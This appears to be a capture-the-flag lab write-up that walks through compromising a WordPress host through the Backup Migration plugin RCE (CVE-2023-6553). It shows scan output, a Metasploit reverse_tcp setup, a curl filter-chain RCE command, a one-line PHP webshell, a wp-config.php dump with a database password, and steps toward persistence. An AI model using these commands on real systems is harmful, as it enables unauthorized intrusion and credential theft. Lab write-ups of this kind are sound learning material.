Same here bug surprisingly one port answers?

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 6.4.3
|_http-title: Cybernetics Internal
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/14%OT=80%CT=%CU=%PV=Y%G=N%TM=666C0AC1%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

I guess if we can get access to this machine then we will be able to reach the other network at **10.9.15.0/24**?

Now if we check on wappaylizer we can see that is Wordpress 6.4.3?



And we can see traces of the internal network pointing to localhost?

What if we point the address to localhost? Since I see that all the ppointers are wrong;



But before looking around seems like one of the post talks about some RDS services?



Now we know the machines we couldn't find... I will add that to my local host machine so I can reach those.

The other article explains how we can request a new certificate in order to login to the email, and other stuff like jenkins.



We have also some emails? Aka a possible user, which I guess we will need to hijack via phishing?

```
To Everyone:

In an effort to increase our security posture, we have moved forward with user certificate authentication. If you haven’t had the opportunity to come into the office or are using your own devices, you can request a certificate via the certenroll API (see below). For more information on this process check out https://blogs.technet.microsoft.com/askds/2010/05/25/enabling-cep-and-ces-for-enrolling-non-domain-joined-computers-for-certificates/. If you’re still having issues email Ilene_Rasch@cyber.local over at Help Desk.

Furthermore, we have started to roll out our network segmentation plan to only allow business related traffic. We also deployed Zabbix with an API to increase our systems/network visibility. The process is simple, the zabpai user logs in, collects information and sends it back to the console.

Requesting a user certificate can only be done from a windows machine

Request a certificate from https://certenroll.cyber.local/ADPolicyProvider_CEP_UsernamePassword/service.svc/CEP (Public IP: 10.10.110.11. Requires RootCA from the parent SYSVOL directory)
Once you have a certificate you can authenticate to Email and Jenkins
User Email: https://mail.cyber.local/owa (Public IP: 10.10.110.12)

Jenkins: https://jenkins.cyber.local (Public IP: 10.10.110.12. Only DevOPS can authenticate to this portal)

Have a wonderful day!
```

before moving I will run wpscan and check for users and other potential vulnerable plugins.

Seems like only one user is present?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# wpscan --url http://10.9.15.11 -e u  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.9.15.11/ [10.9.15.11]
[+] Started: Fri Jun 14 12:11:12 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.9.15.11/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.9.15.11/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.9.15.11/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.9.15.11/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=6.4.3'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.9.15.11/, Match: 'WordPress 6.4.3'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jun 14 12:11:14 2024
[+] Requests Done: 23
[+] Cached Requests: 28
[+] Data Sent: 5.726 KB
[+] Data Received: 64.303 KB
[+] Memory used: 149.641 MB
[+] Elapsed time: 00:00:02
```

Now for the plugins the passive wasn't able to enumerate anything so I will use the aggressive mode which should get deeper...



Still nothing. we could use a free API as well?

```
[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.9.15.11/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=6.4.3'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.9.15.11/, Match: 'WordPress 6.4.3'
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WP < 6.5.2 - Unauthenticated Stored XSS
 |     Fixed in: 6.4.4
 |     References:
 |      - https://wpscan.com/vulnerability/1a5c5df1-57ee-4190-a336-b0266962078f
 |      - https://wordpress.org/news/2024/04/wordpress-6-5-2-maintenance-and-security-release/

[i] The main theme could not be detected.

[+] Enumerating Vulnerable Plugins (via Passive Methods)
```

Same even with keys which makes me wonder if there is really something here?

But then doing a more aggressive search shows that 2 plugins could be vulnerable :

```
[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.9.15.11/wp-content/plugins/akismet/
 | Latest Version: 5.3.2
 | Last Updated: 2024-05-31T16:57:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.9.15.11/wp-content/plugins/akismet/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.

[+] backup-backup
 | Location: http://10.9.15.11/wp-content/plugins/backup-backup/
 | Last Updated: 2024-03-26T12:04:00.000Z
 | Readme: http://10.9.15.11/wp-content/plugins/backup-backup/readme.txt
 | [!] The version is out of date, the latest version is 1.4.5
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.9.15.11/wp-content/plugins/backup-backup/, status: 403
 |
 | [!] 5 vulnerabilities identified:
 |
 | [!] Title: Backup Migration < 1.3.8 - Unauthenticated RCE
 |     Fixed in: 1.3.8
 |     References:
 |      - https://wpscan.com/vulnerability/6a4d0af9-e1cd-4a69-a56c-3c009e207eca
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6553
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/3511ba64-56a3-43d7-8ab8-c6e40e3b686e
 |
 | [!] Title: Backup Migration < 1.4.0 - Unauthenticated Path Traversal to Arbitrary File Deletion
 |     Fixed in: 1.4.0
 |     References:
 |      - https://wpscan.com/vulnerability/0d34189d-0f9e-4bea-a1dc-0579539bf6af
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6972
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/0a3ae696-f67d-4ed2-b307-d2f36b6f188c
 |
 | [!] Title: Backup Migration 1.0.8 - 1.3.9 - Remote File Inclusion via content-dir
 |     Fixed in: 1.4.0
 |     References:
 |      - https://wpscan.com/vulnerability/9819c6d8-f805-426f-b20b-e6a38715a273
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6971
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b380283c-0dbb-4d67-9f66-cb7c400c0427
 |
 | [!] Title: Backup Migration < 1.4.0 - Authenticated (Admin+) OS Command Injection via url
 |     Fixed in: 1.4.0
 |     References:
 |      - https://wpscan.com/vulnerability/3e647712-def6-4e15-ba0b-02c57c44265c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7002
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/cc49db10-988d-42bd-a9cf-9a86f4c79568
 |
 | [!] Title: Backup Migration < 1.4.4 - Information Exposure via Log Files
 |     Fixed in: 1.4.4
 |     References:
 |      - https://wpscan.com/vulnerability/8ccd8ce5-0c98-46f0-81f0-d673d65ec82d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32686
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/af870e80-ad9e-4f45-952f-9ffb07ceca9c
 |
 | Version: 1.3.7 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.9.15.11/wp-content/plugins/backup-backup/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.9.15.11/wp-content/plugins/backup-backup/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 22

[+] Finished: Fri Jun 14 12:28:52 2024
[+] Requests Done: 7357
[+] Cached Requests: 32
[+] Data Sent: 1.905 MB
[+] Data Received: 1.089 MB
[+] Memory used: 244.848 MB
[+] Elapsed time: 00:01:45
```

Specifically I am interested in that backup-plugin..

And I will run the Dirsearch and checking for possible hidden folder or files on the host. Not much?



Now checking the plugin readme.txt I see that the changelos goes up to 1.3.7 which makes me wonder if this is the version?  
  
since we know is named wordpress backup migration tool I am wondering if we can use this?

```
https://www.exploit-db.com/exploits/51445
```

Seems like the stable tag says 1.3.7 which should not allow us?



And I had to stop but googling is you friend and seems like we can reach it via this one!

https://github.com/Chocapikk/CVE-2023-6553

But it is failing on some libraries and looking around seems like we can use metasploit instead?



Here the setup of the exploit:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > show  options 

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   PAYLOAD_FILENAME  NcIG.php         yes       The filename for the payload to be used on the target host (%RAND%.php by default)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.9.15.11       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             80               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       The base path to the wordpress application
   VHOST                              no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

But it fails, I wonder if i need to use ligolo as interface?



But then I stumbled upon the manual script:

https://vulners.com/wpexploit/WPEX-ID:6A4D0AF9-E1CD-4A69-A56C-3C009E207ECA

Basically it says:

```
Using the PHP Filter Chain Generator: https://github.com/synacktiv/php_filter_chain_generator

time curl -X POST http://wpscan-vulnerability-test-bench.ddev.site/wp-content/plugins/backup-backup/includes/backup-heart.php -H "Content-Dir: `python3 ./php_filter_chain_generator.py --chain '<?php system("sleep 5"); ?>' | grep --color=never '^php://filter'`"
```

So I download the needed library and execute my sleep if if takes around 5 sec then we have a rce!

But then I went back to the chockapick and now we are in!

```
┌──(root㉿kali-bello)-[/home/…/Downloads/Cybernetics/www/CVE-2023-6553]
└─# python3 exploit.py -u http://10.9.15.11
http://10.9.15.11 is vulnerable to CVE-2023-6553
Initiating shell deployment. This may take a moment...
Writing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Shell written successfully.
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

#
```

&nbsp;

# Road to pwning

Now I will try to find a valid way to get in! But seems like the flag is easier than I thought..

```
┌──(root㉿kali-bello)-[/home/…/Downloads/Cybernetics/www/CVE-2023-6553]
└─# python3 exploit.py -u http://10.9.15.11
http://10.9.15.11 is vulnerable to CVE-2023-6553
Initiating shell deployment. This may take a moment...
Writing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Shell written successfully.
# pwd
/var/www/html/wordpress/wp-content/plugins/backup-backup/includes

# ls /var/www/html/
flag.txt
index.html
wordpress

# cat /var/www/html/flag.txt
Cyb3rN3t1C5{W3lC0m3_2_Cyb3rn3t!cs}

#
```

Checking the wp_config.php we can grab the credentials used by the WP db in the backend:

```
# cat /var/www/html/wordpress/wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', 'wpD8Password.!' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

Now since I can't get a stable shell I will upload a php webshell so I can gain a better access to it and execute nice commands!

```
# echo "<?php system($_GET['cmd']); ?>" > /var/www/html/wordpress/webshell.php

# ls /var/www/html/wordpress
index.php
license.txt
readme.html
webshell.php
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

And now moment of thruth? NAH!  
After some troubles I managed to use the python to invoke a shell back to the CYBERNETICS-CYWEBDW machine!



Now we can see that the machine is on the juicy network:

```
.k5login
```

Our goal now is to get to root so we can maybe grab some ssh keys for persistence?

```
//Some files under admin
/home/administrator/.k5login
/home/administrator/.mysql_history
/home/administrator/.bashrc
/home/administrator/.bash_logout
/home/administrator/.profile
/var/www/.bash_history


//old version of ubuntu
[0mLinux version 5.4.0-169-generic (buildd@lcy02-amd64-102) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.2)) #187-Ubuntu SMP Thu Nov 23 14:52:28 UTC 2023
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.6 LTS
Release:        20.04
Codename:       focal
```

We can see a kerberos ticket?

```
ww-data@corewebdl:/home/administrator$ cat .k5login
cat .k5login
administrator@CORE.CYBER.LOCAL
Administrator@CORE.CYBER.LOCAL
www-data@corewebdl:/home/administrator$
```

And more?

```
